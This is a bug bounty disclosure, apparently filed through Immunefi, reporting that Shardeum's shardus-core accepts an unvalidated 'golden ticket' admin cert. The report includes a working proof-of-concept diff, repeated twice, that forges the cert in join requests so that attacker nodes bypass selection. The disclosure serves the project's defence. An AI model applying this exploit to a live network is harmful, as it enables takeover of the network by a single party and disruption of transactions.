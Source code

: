 
# Failure to validate golden ticket admin cert

Submitted on Fri Jul 26 2024 16:15:30 GMT-0400 (Atlantic Standard Time) by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33696

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Taking over majority of the network by single authority
- Network not being able to confirm new transactions (total network shutdown)
- Modification of transaction fees outside of design parameters

## Description
# Description
Failure to validate golden ticket admin cert leading to malicious node be able mark themselves golden to get into network bypassing selection algorithm altogether.

# Proof of Concept
- Launch a legit shardeum network and enable all logs, that way you can verify the malicious node get into the network by golden ticket by checking legit node's logs.  (Logs are not necessary for attack to work it's only for your own benefit to verify the attack work)

- Apply the patch to shardus/core. This will be malicious node.

```
diff --git a/src/p2p/Join/index.ts b/src/p2p/Join/index.ts
index 17d1d18d..ff60e099 100644
--- a/src/p2p/Join/index.ts
+++ b/src/p2p/Join/index.ts
@@ -785,6 +785,9 @@ export async function createJoinRequest(
       return
     }
   }
+
+  joinReq['appJoinData'].adminCert = {};
+  joinReq['appJoinData'].adminCert.goldenTicket = true;
   const signedJoinReq = crypto.sign(joinReq)
   if (logFlags.p2pNonFatal) info(`Join request created... Join request: ${Utils.safeStringify(signedJoinReq)}`)
   return signedJoinReq
@@ -1575,4 +1578,4 @@ export function nodeListFromStates(states: P2P.P2PTypes.NodeStatus[]): P2P.NodeL
   export function error(...msg: string[]): void {
     const entry = `Join: ${msg.join(' ')}`
     p2pLogger.error(entry)
-  }
\ No newline at end of file
+  }
```
- this patch make the malicious node mark itself as golden ticket node
- build and link it to your malicious shardeum node
- launch your malicious node
- it'll bypass the selection algorithm and will get in to the network at the next cycle
- If you enable logs in earlier step you can verify this by going into the logs of the legit nodes.
- Please use appropriate log settings to confirm if you need more info.

## Impact
This vulnerability allows malicious agent to launch army of node and effectively take over the network. >51%.

## The reason why it happen
- In shardus/core node were not properly validating the golden ticket admin cert. It was just checking if it's present or not. It should have checked if it's valid or not. [see the code](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Join/v2/select.ts#L103-L111)

        
## Proof of concept
# Proof of Concept
- Launch a legit shardeum network and enable all logs, that way you can verify the malicious node get into the network by golden ticket by checking legit node's logs.  (Logs are not necessary for attack to work it's only for your own benefit to verify the attack work)

- Apply the patch to shardus/core. This will be malicious node.

```
diff --git a/src/p2p/Join/index.ts b/src/p2p/Join/index.ts
index 17d1d18d..ff60e099 100644
--- a/src/p2p/Join/index.ts
+++ b/src/p2p/Join/index.ts
@@ -785,6 +785,9 @@ export async function createJoinRequest(
       return
     }
   }
+
+  joinReq['appJoinData'].adminCert = {};
+  joinReq['appJoinData'].adminCert.goldenTicket = true;
   const signedJoinReq = crypto.sign(joinReq)
   if (logFlags.p2pNonFatal) info(`Join request created... Join request: ${Utils.safeStringify(signedJoinReq)}`)
   return signedJoinReq
@@ -1575,4 +1578,4 @@ export function nodeListFromStates(states: P2P.P2PTypes.NodeStatus[]): P2P.NodeL
   export function error(...msg: string[]): void {
     const entry = `Join: ${msg.join(' ')}`
     p2pLogger.error(entry)
-  }
\ No newline at end of file
+  }
```
- this patch make the malicious node mark itself as golden ticket node
- build and link it to your malicious shardeum node
- launch your malicious node
- it'll bypass the selection algorithm and will get in to the network at the next cycle
- If you enable logs in earlier step you can verify this by going into the logs of the legit nodes.
- Please use appropriate log settings to confirm if you need more info.
